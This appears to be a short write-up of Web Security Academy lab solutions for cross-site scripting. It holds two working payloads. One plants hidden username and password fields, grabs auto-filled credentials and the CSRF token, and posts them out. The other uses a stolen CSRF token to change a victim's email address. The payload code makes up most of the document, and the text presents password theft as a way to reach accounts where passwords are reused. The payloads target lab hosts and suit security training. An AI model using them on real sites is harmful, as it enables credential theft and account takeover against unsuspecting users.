 ## Exploiting cross-site scripting to capture passwords

_These days, many users have password managers that auto-fill their passwords. You can take advantage
of this by creating a password input, reading out the auto-filled password, and sending it to your
own domain. This technique avoids most of the problems associated with stealing cookies, and can even
gain access to every other account where the victim has reused the same password._

```html
<form><input type="text" id="username" name="username"></form>
<form><input type="password" id="password" name="password"></form>
<script>
window.onload = function(e) {
    setTimeout(function() {
        var csrf = document.getElementsByName("csrf")[0].value;
        var username = document.getElementById("username").value;
        var passw = document.getElementById("password").value;
        console.log(csrf);
        fetch('https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/post/comment', {
            method: 'POST',
            body: 'csrf=' + csrf + '&postId=3&comment=Username: ' + username + ', Password: ' + passw + '&name=Jan&email=admin%40cmdnctrl.net&website='
        });
    }, 2500);
};
</script>
```

## Exploiting cross-site scripting to perform CSRF

_Anything a legitimate user can do on a web site, you can probably do too with XSS. Depending on the site
you're targeting, you might be able to make a victim send a message, accept a friend request, commit a
backdoor to a source code repository, or transfer some Bitcoin._

```html
<script>
window.onload = function(e) {
    var csrf = document.getElementsByName("csrf")[0].value;
    console.log(csrf);
    fetch('https://ac8e1fe31e1017ee80982bb700310061.web-security-academy.net/email/change', {
        method: 'POST',
        body: 'csrf=' + csrf + '&email=john@wick.com'
    });
};
</script>
```


